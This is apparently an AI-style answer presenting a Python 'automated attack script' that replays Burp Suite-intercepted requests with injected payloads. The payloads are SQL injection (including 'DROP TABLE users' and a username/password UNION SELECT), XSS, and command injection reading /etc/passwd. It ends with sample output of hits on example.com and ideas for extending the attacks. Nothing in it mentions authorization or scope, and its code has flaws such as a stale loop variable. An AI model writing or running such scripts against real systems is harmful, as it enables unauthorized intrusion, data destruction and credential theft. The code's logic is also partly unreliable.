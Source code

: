 Here’s an **advanced automated attack script** that integrates Burp Suite with **active attack vectors like XSS, SQL Injection, and Command Injection** based on intercepted requests.  

---

## **🔥 Features**
✅ **Intercepts HTTP requests** from Burp Suite  
✅ **Automatically injects XSS, SQLi, and Command Injection payloads**  
✅ **Logs responses to detect vulnerabilities**  
✅ **Generates a report of potential exploits**  

---

## **🛠️ Prerequisites**
1. **Enable Burp Suite API**  
   - Go to **Burp Suite → User Options → Misc**  
   - Enable API listening on **http://127.0.0.1:1337**  
2. **Install dependencies**  
   ```bash
   pip install requests
   ```

---

## **🚀 Python Script: Automated Attacks via Burp Suite**
```python
import requests
import json
import time

# Burp Suite Proxy Configuration
BURP_PROXY = "http://127.0.0.1:8080"  # Adjust if using a different port
BURP_API_URL = "http://127.0.0.1:1337/v0.1"

# Test Payloads for SQL Injection, XSS, and Command Injection
ATTACK_PAYLOADS = {
    "SQLi": ["' OR 1=1 --", "'; DROP TABLE users; --", "' UNION SELECT null, username, password FROM users --"],
    "XSS": ['<script>alert(1)</script>', '" onmouseover="alert(1)"', "'';!--\"<XSS>=&{()}"],
    "CMD": ["; ls -la", "&& whoami", "| cat /etc/passwd"]
}

# Headers to mimic a browser
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Log File
LOG_FILE = "burp_attack_log.txt"


def log_vulnerability(url, field, payload, attack_type, response):
    """Logs vulnerabilities to a file."""
    with open(LOG_FILE, "a") as log:
        log.write(f"[VULNERABILITY] {attack_type} detected!\n")
        log.write(f"URL: {url}\n")
        log.write(f"Field: {field}\n")
        log.write(f"Payload: {payload}\n")
        log.write(f"Response: {response}\n")
        log.write("="*50 + "\n")
    print(f"[!] {attack_type} detected on {field} with payload: {payload}")


def get_burp_intercepted_requests():
    """Fetch intercepted requests from Burp Suite."""
    response = requests.get(f"{BURP_API_URL}/http/requests", headers={"Accept": "application/json"})

    if response.status_code != 200:
        print("[ERROR] Could not fetch intercepted requests.")
        return []

    return response.json()


def attack_intercepted_requests():
    """Modify and replay intercepted requests with attack payloads."""
    intercepted_requests = get_burp_intercepted_requests()

    for req in intercepted_requests:
        if "request" not in req:
            continue

        # Extract request details
        raw_request = req["request"]
        url = req["url"]
        method = req["method"]
        original_data = req["body"] if "body" in req else None

        # Skip requests without form data
        if not original_data:
            continue

        # Test each field in the request body
        for attack_type, payloads in ATTACK_PAYLOADS.items():
            for payload in payloads:
                modified_data = original_data

                # Inject payload into all parameters
                for param in original_data.split("&"):
                    key, value = param.split("=")
                    modified_data = modified_data.replace(value, payload)

                print(f"[*] Testing {attack_type} on {url} with payload: {payload}")

                # Send modified request via Burp Proxy
                if method == "POST":
                    response = requests.post(url, headers=HEADERS, data=modified_data, proxies={"http": BURP_PROXY, "https": BURP_PROXY}, verify=False)
                else:
                    response = requests.get(f"{url}?{modified_data}", headers=HEADERS, proxies={"http": BURP_PROXY, "https": BURP_PROXY}, verify=False)

                # Check if attack was successful
                if attack_type == "SQLi" and ("error in your SQL syntax" in response.text.lower() or "mysql_fetch" in response.text.lower()):
                    log_vulnerability(url, key, payload, "SQL Injection", response.text[:200])
                elif attack_type == "XSS" and payload in response.text:
                    log_vulnerability(url, key, payload, "XSS", response.text[:200])
                elif attack_type == "CMD" and "root" in response.text.lower():
                    log_vulnerability(url, key, payload, "Command Injection", response.text[:200])


def main():
    print("[*] Fetching intercepted requests from Burp Suite...")
    attack_intercepted_requests()


if __name__ == "__main__":
    main()
```

---

## **🔍 How This Works**
1. **Extracts intercepted HTTP requests** from Burp Suite API.  
2. **Modifies form fields** to inject **SQL Injection, XSS, and Command Injection payloads**.  
3. **Replays modified requests** through Burp Suite’s proxy.  
4. **Analyzes responses** to detect successful attacks.  
5. **Logs vulnerabilities** if attacks succeed.  

---

## **💡 Example Output**
```
[*] Fetching intercepted requests from Burp Suite...
[*] Testing SQLi on https://example.com/login with payload: ' OR 1=1 --
[!] SQL Injection detected on username with payload: ' OR 1=1 --
[*] Testing XSS on https://example.com/search with payload: <script>alert(1)</script>
[!] XSS detected on search with payload: <script>alert(1)</script>
[*] Testing CMD on https://example.com/ping with payload: && whoami
[!] Command Injection detected on input with payload: && whoami
```

---

## **🔥 Next-Level Enhancements**
✅ **Integrate Burp Suite’s Active Scanner** for automatic testing  
✅ **Fuzz HTTP headers** (e.g., `User-Agent`, `Referer`, `Cookie`)  
✅ **Automate report generation in JSON format**  
